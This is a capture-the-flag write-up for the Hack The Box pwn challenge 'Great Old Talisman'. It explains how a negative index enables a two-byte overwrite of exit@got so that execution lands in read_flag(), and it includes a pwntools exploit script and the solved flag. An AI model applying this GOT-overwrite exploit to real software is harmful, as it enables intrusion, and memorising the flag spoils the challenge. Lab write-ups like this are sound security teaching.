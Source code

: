 # Great Old Talisman
> Write-up author: jon-brandy

## Lessons Learned:
- Calculating offset for exit@got entry.
- Utilizing 2 bytes overflow to overwrite exit@got.

## DESCRIPTION:
Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, 
a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f6b29c13-7977-4f4e-b6a7-837df5a4ba68)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/92266156-8059-4a1a-ae58-7e289c7beb36)


2. After decompiled the binary and reviewing the code, found the vuln at the main() function where there's a read() function call to accepts 2 bytes but users can actually fill up to `input * 8 bytes`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fbdad50-cb60-4274-9856-ef9357fd3aa4)


3. Knowing this we can overwrite pointer of exit@got and points it to what ever we want by modifying the last 2 bytes.
4. Checking for useful functions, found a function that seems to be our goal. It's `read_flag()`.
5. This function print the content flag to us.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9ab55fc6-b267-42e9-b45e-afcd574b919e)


6. Great! The exploit flow is:

```
- Calculate the offset for exit@got entry.
- Overwrite exit@got pointer to read_flag().
```

7. To calculate the exit@got entry, we can use GDB.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/032819d5-70a7-423c-b2f0-3f1c0fc8ba85)


8. Awesome! Based from the result above, we can identify that we need to pass `-4` (because offset calculation of talis to exit@got, remember the libc and pie calculations logic) as the input.
9. Lastly, since we want to overwrite the last 2 bytes of exit@got with last 2 bytes of `read_flag()`, we can use AND operations to address of `read_flag()` with 0XFFFF.
10. After executes the AND operations, packed the bytes result into `p16() bytes wrapper` (half of 64 bit).
11. Here's the full script:

> SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './great_old_talisman'
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.62.195',49760)

sh.sendlineafter(b'>', b'-4')
# read_flag = p16(elf.sym['read_flag'] & 0xFFFF)
# print(read_flag)
sh.sendlineafter(b':', p16(elf.sym['read_flag'] & 0xFFFF))
# gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cde9389-995a-4e14-9028-010c34d8cdbe)


## FLAG

```
HTB{t4l15m4n_G0T_ur_b4ck}
```
